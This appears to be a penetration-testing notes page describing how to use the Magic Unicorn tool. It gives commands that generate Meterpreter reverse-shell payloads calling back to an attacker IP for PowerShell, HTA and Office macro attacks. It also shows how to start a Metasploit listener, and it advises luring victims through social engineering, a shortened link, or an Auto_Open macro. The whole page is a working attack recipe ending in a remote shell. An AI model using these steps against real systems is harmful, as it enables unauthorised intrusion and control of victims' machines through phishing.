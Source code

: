 # ⭕ Magic Unicorn

{% embed url="https://github.com/trustedsec/unicorn" %}

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.

```
git clone https://github.com/trustedsec/unicorn.git

./unicorn.py
```

### **Powershell Attack**

```
./unicorn.py windows/meterpreter/reverse_tcp 192.168.1.109 4444
```

Now this will give us two files. One is a text file named “powershell\_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

```
msfconsole -r unicorn.rc

# or if msf is already running :
msf> resource unicorn.rc
```

deliver the payload from powershell\_attack.txt file to the victim (via CMD or somewhere else) and you have a shell.

### **HTA Attack**

```
./unicorn.py windows/meterpreter/reverse_https 192.168.1.109 4455 hta
```

Now convert your IP in bit.ly URL form and send to the victim and then wait for the user to click on the “launcher.hta” file which could be done using social engineering easily.

{% hint style="info" %}
The victim has to open the link to your hosted index.html file and click "open" when prompt for the HTA file to run.
{% endhint %}

### **Macro Attack**

```
./unicorn.py windows/meterpreter/reverse_https 192.168.1.109 443 macro
```

This again creates a text file and a “**.rc**” file with the same name and on the same destination.

To enable developer mode there are various methods depending upon your version of MS office.

As for a generic approach, let’s say you enabled it like:

**File->properties->ribbons->developer mode**

![](<../../.gitbook/assets/image (296).png>)

You will see an extra tab labeled developer once it gets enabled.

As for the attack, go to developer->macros and create a new macro named “Auto\_Open”

![](<../../.gitbook/assets/image (295).png>)

Simply paste the contents from “powershell\_attack.txt” to this xlsx module and save it.

![](<../../.gitbook/assets/image (298).png>)

As soon as you click run (little green icon on the top), it will give you an error! Don’t worry! You want that error. It is supposed to happen.

![](<../../.gitbook/assets/image (301).png>)
